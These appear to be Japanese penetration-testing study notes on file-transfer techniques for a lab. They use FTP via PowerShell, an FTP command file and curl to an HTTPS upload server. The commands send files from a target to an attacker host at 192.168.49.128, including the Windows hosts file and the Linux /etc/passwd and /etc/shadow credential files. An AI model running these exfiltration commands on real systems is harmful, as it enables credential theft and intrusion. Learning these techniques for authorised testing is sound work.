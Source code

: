 #### FTPアップロード
##### 攻撃者側
- FTPを使用してファイルをアップロードすることは、ファイルのダウンロードと非常によく似ている
- PowerShell または FTP クライアントを使用して操作を完了できる
- Python モジュール pyftpdlib を使用して FTP サーバーを開始する前に、クライアントが攻撃ホストにファイルをアップロードできるようにするオプション --write を指定する必要がある
```shell
sudo python3 -m pyftpdlib --port 21 --write
```
##### ターゲット側
それでは、PowerShellのアップロード機能を使用して、FTPサーバーにファイルをアップロードする
```powershell
(New-Object Net.WebClient).UploadFile('ftp://192.168.49.128/ftp-hosts', 'C:\Windows\System32\drivers\etc\hosts')
```

#### FTPクライアントがファイルをアップロードするためのコマンドファイルを作成
```cmd-session
C:\htb> echo open 192.168.49.128 > ftpcommand.txt
C:\htb> echo USER anonymous >> ftpcommand.txt
C:\htb> echo binary >> ftpcommand.txt
C:\htb> echo PUT c:\windows\system32\drivers\etc\hosts >> ftpcommand.txt
C:\htb> echo bye >> ftpcommand.txt
C:\htb> ftp -v -n -s:ftpcommand.txt
ftp> open 192.168.49.128

Log in with USER and PASS first.


ftp> USER anonymous
ftp> PUT c:\windows\system32\drivers\etc\hosts
ftp> bye
```

### Linux

#### webアップロード(HTTPS)
##### ターゲット側
httpsサーバーをターゲット側で立てるってことだね
webサーバーの開始
```shell-session
sudo python3 -m pip install --user uploadserver
```

自己署名証明書の作成
```shell-session
openssl req -x509 -out server.pem -keyout server.pem -newkey rsa:2048 -nodes -sha256 -subj '/CN=server'
```

ウェブサーバーは証明書をホストすべきではありません。ウェブサーバーのファイルをホストするために、新しいディレクトリを作成した方がいい
```shell-session
mkdir https && cd https
```
##### 攻撃者側
複数のファイルを取得する
- 自己署名証明書を受け入れるように、`--insecure`を追加する
```shell-session
 curl -X POST https://192.168.49.128/upload -F 'files=@/etc/passwd' -F 'files=@/etc/shadow' --insecure
```

